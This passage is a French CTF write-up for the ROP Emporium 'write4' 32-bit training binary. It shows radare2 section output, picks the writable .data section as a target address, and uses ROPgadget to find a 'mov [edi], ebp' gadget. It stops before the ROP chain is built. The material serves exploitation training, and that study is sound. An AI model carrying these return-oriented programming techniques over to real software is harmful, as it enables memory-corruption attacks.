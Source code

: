 ## Contruction de l'exploitation

### Recherche d'une zone memoire inscriptible

    [0x08048543]> iS
    [Sections]

    nth paddr        size vaddr       vsize perm name
    ―――――――――――――――――――――――――――――――――――――――――――――――――
    0   0x00000000    0x0 0x00000000    0x0 ----
    1   0x00000154   0x13 0x08048154   0x13 -r-- .interp
    2   0x00000168   0x20 0x08048168   0x20 -r-- .note.ABI-tag
    3   0x00000188   0x24 0x08048188   0x24 -r-- .note.gnu.build-id
    4   0x000001ac   0x3c 0x080481ac   0x3c -r-- .gnu.hash
    5   0x000001e8   0xb0 0x080481e8   0xb0 -r-- .dynsym
    6   0x00000298   0x8b 0x08048298   0x8b -r-- .dynstr
    7   0x00000324   0x16 0x08048324   0x16 -r-- .gnu.version
    8   0x0000033c   0x20 0x0804833c   0x20 -r-- .gnu.version_r
    9   0x0000035c    0x8 0x0804835c    0x8 -r-- .rel.dyn
    10  0x00000364   0x18 0x08048364   0x18 -r-- .rel.plt
    11  0x0000037c   0x23 0x0804837c   0x23 -r-x .init
    12  0x000003a0   0x40 0x080483a0   0x40 -r-x .plt
    13  0x000003e0    0x8 0x080483e0    0x8 -r-x .plt.got
    14  0x000003f0  0x1c2 0x080483f0  0x1c2 -r-x .text
    15  0x000005b4   0x14 0x080485b4   0x14 -r-x .fini
    16  0x000005c8   0x14 0x080485c8   0x14 -r-- .rodata
    17  0x000005dc   0x44 0x080485dc   0x44 -r-- .eh_frame_hdr
    18  0x00000620  0x114 0x08048620  0x114 -r-- .eh_frame
    19  0x00000efc    0x4 0x08049efc    0x4 -rw- .init_array
    20  0x00000f00    0x4 0x08049f00    0x4 -rw- .fini_array
    21  0x00000f04   0xf8 0x08049f04   0xf8 -rw- .dynamic
    22  0x00000ffc    0x4 0x08049ffc    0x4 -rw- .got
    23  0x00001000   0x18 0x0804a000   0x18 -rw- .got.plt
    24  0x00001018    0x8 0x0804a018    0x8 -rw- .data
    25  0x00001020    0x0 0x0804a020    0x4 -rw- .bss
    26  0x00001020   0x29 0x00000000   0x29 ---- .comment
    27  0x0000104c  0x440 0x00000000  0x440 ---- .symtab
    28  0x0000148c  0x211 0x00000000  0x211 ---- .strtab
    29  0x0000169d  0x105 0x00000000  0x105 ---- .shstrtab


On peut retenir le début de la section .data 0x0804a018 quit fait juste 8 octets avec derrièe la section .bss elle aussi inscriptible.


### Recherche de gadgets

Pour ecrire a l'adresse convenue il nou faut une intruction "mov []"

    ropemporium/x32/write4# ROPgadget --binary write432 --depth 4| grep "mov.*\["
    0x08048543 : mov dword ptr [edi], ebp ; ret
    0x08048423 : mov ebx, dword ptr [esp] ; ret
